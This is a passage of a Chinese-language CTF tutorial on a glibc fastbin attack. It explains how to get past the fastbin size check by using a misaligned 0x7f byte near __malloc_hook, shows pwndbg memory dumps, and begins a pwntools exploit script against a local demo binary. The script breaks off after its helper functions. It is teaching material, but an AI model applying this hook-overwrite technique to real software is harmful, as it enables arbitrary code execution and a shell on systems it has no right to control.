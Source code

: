 &emsp;&emsp;<font size=2>显然控制流会进入这里，根据我们申请的size，获取fastbinY里的堆块，然后会定义一个pp获取fastbin的fd处的地址（取单链表的下一个地址，换句话说就是在这个堆块之前被free的堆块，如果是0就说明这是第一个被free的，但在我们的情况下被修改为了任意值0x61616161，显然这是个非法的堆块地址，因此访问这个非法地址的“fd”处时会触发内存错误），后面再把fastbinY里的值更新为链表的下一个节点，也就是pp的值。</font></br>

&emsp;&emsp;<font size=2>不过注意这个`fastbin_index(chunksize(victim))!=idx`判断，思考一下，如果我们之前伪造的fd指向的是一个合法的地址（比如说指向另一个堆块），那么在更新fastbinY的时候就不会触发内存错误，控制流会继续往下到了`fastbin(chunksize(victim))!=idx`这里，在我们的情况下idx为4（由`(0x60>>4)-2`计算得到），victim的size假如是0x80，那么`(0x80>>4)-2`为6，那么就被检查出错误来了，就会发生malloc corruption，那么为了不崩溃，我们伪造的fd指向的地址处的size偏移处（p+0x8）的8字节数据必须和我们申请的相当。假如我们`malloc(0x50);`，那么nb就是0x60，那么伪造的fd的size处必须为0x60~0x6F，因为这样经过计算idx才相等，才能绕过检查。</font></br>

&emsp;&emsp;<font size=2>还记得上一节我们利用unsafe-unlink修改\_\_free_hook吗？这一次我们修改\_\_malloc_hook，利用他们getshell的原理都是一样的（修改他们的地址为libc中的one_gadget地址，一步到位），接下来展示一种利用fastbin to libc的技巧：</font></br>

```
pwndbg> x/20xg  0x7ffff7dd1b10-0x40
0x7ffff7dd1ad0 <_IO_wide_data_0+272>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1ae0 <_IO_wide_data_0+288>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1af0 <_IO_wide_data_0+304>:	0x00007ffff7dd0260	0x0000000000000000
0x7ffff7dd1b00 <__memalign_hook>:	0x00007ffff7a92e20	0x00007ffff7a92a00
0x7ffff7dd1b10 <__malloc_hook>:	0x00007ffff7a92830	0x0000000000000000
0x7ffff7dd1b20 <main_arena>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
```

&emsp;&emsp;<font size=2>如上所示，我们攻击的目标是\_\_malloc_hook，我们要把fastbin分配到这上面去！</font></br>

> 等等？你不是说伪造的fd的size偏移处的数据要跟我们申请的size相当吗？分配到\_\_malloc_hook上size岂不是要0x00007ffff7a92a00这么大？

&emsp;&emsp;<font size=2>是的，的确没错，但是我们不一定要把堆块直直的分配在hook的正上方，思路猥琐一点，如果这样看\_\_malloc_hook周围的数据：</font></br>

```
pwndbg> x/20xg 0x7ffff7dd1aed
0x7ffff7dd1aed <_IO_wide_data_0+301>:	0xfff7dd0260000000	0x000000000000007f
0x7ffff7dd1afd:	0xfff7a92e20000000	0xfff7a92a0000007f
0x7ffff7dd1b0d <__realloc_hook+5>:	0xfff7a9283000007f	0x000000000000007f
0x7ffff7dd1b1d:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b2d <main_arena+13>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b3d <main_arena+29>:	0x0000000000000000	0x0000000000000000
```

&emsp;&emsp;<font size=2>这里不是有一个0x7F吗（滑稽）？也就是说我们把fd伪造为0x7ffff7dd1aed就可以绕过idx检查了，然后往下随意写19个字节，再把one_gadget的8字节写上去就刚好覆盖\_\_malloc_hook了。思路有了，我就直接放demo的pwntools利用了：</font></br>

```python
from pwn import *

p=process('./demo')

context.log_level=1

sd=lambda x: p.send(x)
sl=lambda x: p.sendline(x)
rv=lambda x: p.recvuntil(x)
sa=lambda a,x: p.sendafter(a,x)
sla=lambda a,x: p.sendlineafter(a,x)

menu='Choice:'

def add(size,content=''):
    sla(menu,'1')
    sla('input your size:',str(size))
    sla('input your message:',content)

def delete(index):
    sla(menu,'2')
    sla('input the index: ',str(index))

```